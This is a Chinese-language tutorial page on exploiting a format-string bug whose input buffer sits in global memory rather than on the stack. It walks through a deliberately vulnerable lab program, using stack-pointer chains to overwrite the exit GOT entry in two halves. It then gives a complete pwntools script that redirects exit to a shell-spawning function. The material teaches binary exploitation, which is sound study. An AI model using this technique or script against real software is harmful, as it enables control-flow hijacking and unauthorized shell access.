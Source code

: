 ```yaml
---
title: "全局格式化字符串任意写"
description: ""
lead: ""
date: 2023-04-21T22:46:04+08:00
lastmod: 2023-04-21T22:46:04+08:00
draft: false
images: []
menu:
  docs:
    parent: ""
    identifier: "全局格式化字符串任意写-1a5f19175bd89fd601a2a202f89f16d9"
weight: 101
toc: true
---
```


## 0x01 介绍

之前的情况是格式化字符串保存在栈中，所以我们可以很容易控制栈的内容，往栈中写入地址等数据，但是如果格式化字符串是保存在bss、data段，那么我们就不能再通过之前的方式来实现任意写。之前任意写能实现就是因为在栈中有我们写入的地址，而现在我们不能对栈写入地址了。

我们来仔细观察栈中的数据

![3753dc6a988ba32dbfbbcb0840407f96](images/3753dc6a988ba32dbfbbcb0840407f96.png)  

可以发现栈中保存了很多栈地址，如果我们可以通过任意写往这些栈地址指向的地方写入我们要攻击的地址，然后栈中就会出现被攻击的地址，最后我们再往被攻击的地址写入指定数据即可获取shell等操作

![a1422bbe755576c841fdbca25c811d2a](images/a1422bbe755576c841fdbca25c811d2a.png)  

我们以一个例子来看

```cpp
#include<stdio.h>
#include<stdlib.h>
char buf[0x50];
void hint() { system("/bin/sh"); }
int main() {
    int choice;
    setbuf(stdout, 0);
    while(1) {
        scanf("%d", &choice);
        if(choice == 1) {
            scanf("%s", buf);
            printf(buf);
        } else {
            exit(0);
        }
    }
}
// gcc global_printf.c -m32 -o global_printf_x32 -no-pie
```

![28e05b489aa2c7daecd16a9286386daa](images/28e05b489aa2c7daecd16a9286386daa.png)  

虽然原理按照之前的来将很简单，但是我们不能选简单的栈地址，而应该选栈链形式的地址，我们在之前讲任意写的时候是通过两次写入才完成的，因为我们不可以一次性写入很大的值，所以我们其实是需要中间有个地址过度，这个地址过度的目的是为了可以分两次来写入attack addr。我们可以控制过度地址的末尾的字节来修改stack addr的位置，从而达到分段写的目的。

![bad0b207975deb1df3908fce2daf2cf7](images/bad0b207975deb1df3908fce2daf2cf7.png)  

我们以这个例子来具体讲操作。首先通过 `0xffffd654` 修改 `0xffffd783` 的后两个字节为离当前栈顶近的位置，再覆写之前需要先泄露一个地址，然后通过计算相对偏移量来获取设置后两个字节应该覆盖的地址，比如我们可以泄露图中第九个栈单元的 `0xffffd5c0` ，而我们要写入的地址为 `0xffffd5a8` ，泄露出来的地址和我们要写入地址之间的偏移量为0x18，payload就可以写为

```python
stack = leak_addr - 0x18    # leak_addr为泄露出来的栈地址
payload = ("%{0}d%5$hn".format(stack & 0xffff)).encode()
```

![23dade76140123bed42530fe7eb6cff0](images/23dade76140123bed42530fe7eb6cff0.png)  

可以发现已经修改成功，接着我们注入exit的got表的低2位， `0xffa792b4` 的偏移量为53

```python
payload = ("%{0}d%53$hn".format(exit_got & 0xffff)).encode()
```

![5abfb2523bbfa40ecffc047259c3982d](images/5abfb2523bbfa40ecffc047259c3982d.png)  

低字节已经覆盖成功了，接下来修改stack2 addr为stack2 addr+2

```python
payload = ("%{0}d%5$hn".format((stack & 0xffff) + 2)).encode()
```

![6cc7fea685db9db852948b9bbf8a3b38](images/6cc7fea685db9db852948b9bbf8a3b38.png)  

最后再次注入exit的got高地址

```python
payload = ("%{0}d%53$hn".format((exit_got >> 16) & 0xffff)).encode()
```

![879893efd8d587a59e3347a86fc931e6](images/879893efd8d587a59e3347a86fc931e6.png)  

这时候完整的exit的got表就写入成功了，而hint地址为

![e1f8aec2d996559b76dd836d92c2a310](images/e1f8aec2d996559b76dd836d92c2a310.png)  

和exit的got表内存储的地址 `0x80483e6` 只有后两个字节不一样，所以只要覆盖低两位几个，这里偏移量为10

```python
payload = ("%{0}d%10$hn".format(hint & 0xffff)).encode()
```

![b5903823ee61b510e45d0d7f968ce0c3](images/b5903823ee61b510e45d0d7f968ce0c3.png)  

最后就修改成功了，只要退出触发exit函数即可获取shell

![b45487c53fb75eea5c1c737acdc1520a](images/b45487c53fb75eea5c1c737acdc1520a.png)  

完整的Exploit为

```python
from pwn import*
o = process("./global_printf_x32")
elf = ELF("./global_printf_x32")
exit_got = elf.got['exit']
hint = elf.sym['hint']
o.sendline(b"1")
o.sendline(b"%9$p")
leak_addr = int(o.recv(), 16)
log.info(hex(leak_addr))
stack = leak_addr - 0x18
o.sendline(b"1")
payload = ("%{0}d%5$hn".format(stack & 0xffff)).encode()
o.sendline(payload)
o.sendline(b"1")
payload = ("%{0}d%53$hn".format(exit_got & 0xffff)).encode()
o.sendline(payload)
o.sendline(b"1")
payload = ("%{0}d%5$hn".format((stack & 0xffff) + 2)).encode()
o.sendline(payload)
o.sendline(b"1")
payload = ("%{0}d%53$hn".format((exit_got >> 16) & 0xffff)).encode()
o.sendline(payload)
o.sendline(b"1")
payload = ("%{0}d%10$hn".format(hint & 0xffff)).encode()
o.sendline(payload)
o.interactive()
```

其他的同理，我们还可以通过这种方法来覆盖函数返回地址等东西

